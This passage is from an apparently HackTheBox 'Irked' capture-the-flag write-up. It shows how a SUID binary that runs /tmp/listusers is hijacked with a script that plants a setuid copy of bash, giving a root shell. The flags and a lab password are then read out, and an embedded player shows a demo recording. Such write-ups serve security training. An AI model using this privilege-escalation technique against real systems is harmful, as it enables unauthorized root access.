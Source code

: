 	1. Create `/tmp/listusers`, script
		```
		ircd@irked:/$ cat /tmp/listusers 
		#!/bin/bash
		
		cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash;
		```
	2. Make it executable 
		```
		ircd@irked:/$ chmod 777 /tmp/listusers
		```
	3. Execute `/usr/bin/viewusers`
		```
		ircd@irked:/$ /usr/bin/viewuser
		This application is being devleoped to set and test user permissions
		It is still being actively developed
		(unknown) :0           2022-09-09 17:41 (:0)
		
		ircd@irked:/$ ls -la /tmp | grep rootbash
		-rwsr-xr-x  1 root ircd 1105840 Sep 10 04:31 rootbash
		```
	4. Execute `/tmp/rootbash`
		```
		ircd@irked:/$ /tmp/rootbash -p
		```
		![]({{ page.img_path }}Pasted%20image%2020220910163213.png)
4. User & Root Flag
	```
	rootbash-4.3# cd djmardov
	rootbash-4.3# ls
	Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
	rootbash-4.3# cat user.txt 
	39235faac8fcac0052060cd10b113114
	
	rootbash-4.3# ls
	pass.txt  root.txt
	rootbash-4.3# cat root.txt
	20cf70dc16a04f7054465aab92169563
	rootbash-4.3# cat pass.txt 
	Kab6h+m+bbp2J:HG
	```
5. Demo - `/usr/bin/viewusers` Privilege Escalation 
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="viewuser_priv_esc"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Irked/images/viewuser_priv_esc.cast', document.getElementById('viewuser_priv_esc'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>


